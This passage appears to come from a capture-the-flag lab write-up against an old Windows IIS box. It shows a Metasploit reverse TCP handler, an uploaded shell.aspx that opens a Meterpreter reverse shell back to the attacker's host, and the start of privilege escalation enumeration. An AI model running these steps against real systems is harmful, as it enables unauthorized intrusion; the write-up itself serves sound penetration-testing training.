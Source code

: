 ```sh

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 10.10.16.7:9001
```

Back to my browser, I will visit  `http://10.10.10.15/shell.aspx` which is a blank page, greate sign :) hopefully.

Checking my `metasploit` listener, and we have `shell` on the box.

```sh
-------snip-------
[*] Started reverse TCP handler on 10.10.16.7:9001
[*] Sending stage (175686 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.16.7:9001 -> 10.10.10.15:1030) at 2023-10-13 23:45:45 +0300

(Meterpreter 1)(c:\windows\system32\inetsrv) > getuid
Server username: NT AUTHORITY\NETWORK SERVICE

(Meterpreter 1)(c:\windows\system32\inetsrv) > shell
Process 2940 created.
Channel 1 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service

```

## Shell as nt authority
### Enumeration

from `IIS` version, the box seems like an old Windows box hence I will check local exploits which is quite convinient as metasploit includes a module for that.

The Local Exploit Suggester is a post-exploitation module that you can use to check a system for local vulnerabilities. It performs local exploit checks; it does not actually run any exploits, which is useful because this means you to scan a system without being intrusive. In addition to being stealthy, it's a time saver. You don't have to manually search for local exploits that will work; it'll show you which exploits the target is vulnerable to based on the system's platform and architecture.
